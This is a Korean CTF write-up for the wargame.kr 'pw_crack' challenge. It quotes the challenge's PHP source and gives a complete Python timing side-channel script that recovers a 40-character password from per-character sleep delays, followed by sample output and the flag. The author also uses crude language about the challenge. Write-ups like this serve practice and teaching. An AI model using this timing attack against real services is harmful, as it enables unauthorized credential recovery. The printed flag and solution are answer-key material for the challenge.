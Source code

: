 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-02-23-24-08.png)

# **Write-Up**

00시 마다 FLAG가 바뀐다고 한다.

![](images/2022-01-02-23-25-06.png)

소스를 보면 Let's go!버튼을 누르면 내가 웹에 접속한 IP:31337 TCP로 password : 라는 글자를 보내고 40글자까지 읽은 뒤, 가지고 있는 password랑 비교하면서 한 글자당 2초 씩 sleep한다.

```php
<?php
    if (isset($_GET['view-source'])) {
        show_source(__FILE__);
        exit();
    }
    include("../lib.php"); // include for auth_code function.

    //ini_set("display_errors", true);

    $password=auth_code("pw crack");
    $dest = $_SERVER['REMOTE_ADDR'];
    $port = 31337;
    $data="";

    $sock = @fsockopen($dest,$port,$errno,$errstr,10);
    if(!$sock){die("IP : $dest<br />port : $port<br /><h2>Connection Error</h2><br /><br />Please, open your port!");}
    fwrite($sock,"password : ");
    for($i=0;$i<40;$i++){
        $c=fgetc($sock);
        if(ord($c)==0 || ord($c) == 10){ break; }
        $data.=$c;
    }
    fclose($sock);
 
    for($i=0;$i<40;$i++){
        sleep(2);
        if($data[$i]!=$password[$i]){
            die("wrong password!");
            break;
        }
    }
    echo "<script> alert('congratulation!! that`s auth key!!'); </script>";
```

의미도 없고, 재미도 없고, 트래픽때문에 sleep시간 차이도 날 수도 있고, ㅈ같은 문제다. 진짜 쓰레기 문제다.

다음과 같은 Python script로 하루 종일(진짜)돌리면 FLAG를 얻을 수 있다.

* multi thread로 돌려봤지만, delay가 엉망진창이 되어서 single thread로 돌렸다.

```python
import urllib
import urllib.request
import threading
import time
import socket
import string

flag    = ''
HOST    = '0.0.0.0'
PORT    = 31337
chk     = False
s       = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((HOST, PORT))
s.listen()

def run_wargame(password):
    global chk
    url         = 'http://wargame.kr:8080/pw_crack/check.php'
    headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
    request     = urllib.request.Request(url, headers = headers)
    s_time      = time.time()
    urllib.request.urlopen(request)
    delay       = int(time.time() - s_time) - 2

    print('{} : {}'.format(password, delay))
    if delay >= (len(password) - 1)*2 + 2: chk  = True

def run_server(password):
    global s
    t = threading.Thread(target=run_wargame, args=(password, ))
    t.start()

    c,_ = s.accept()
    c.recv(1024) # "password : "
    c.sendall(password.encode()+b'\x00')
    c.close()

    t.join()

while True:
    s_time = time.time()
    chk = False
    for password_set in string.ascii_lowercase+string.digits:
        password = flag + password_set
        run_server(password)
        if chk == True:
            flag = password
            print('current flag : {} [{}]'.format(flag, time.time()-s_time ))
            break
    if chk == False: flag = flag[:-1]
    if len(flag) >= 40: break

s.close()

[Output]
... 생략 ...
c16d177f3938078492e442e7e24c5f088813f3 : 76
current flag : c16d177f3938078492e442e7e24c5f088813f3 [2284.174948692322]
c16d177f3938078492e442e7e24c5f088813f3a : 76
c16d177f3938078492e442e7e24c5f088813f3b : 76
c16d177f3938078492e442e7e24c5f088813f3c : 76
c16d177f3938078492e442e7e24c5f088813f3d : 78
current flag : c16d177f3938078492e442e7e24c5f088813f3d [314.8074357509613]
c16d177f3938078492e442e7e24c5f088813f3da : 78
c16d177f3938078492e442e7e24c5f088813f3db : 78
c16d177f3938078492e442e7e24c5f088813f3dc : 78
... 생략 ...
```

# **FLAG**

**c16d177f3938078492e442e7e24c5f088813f3d7**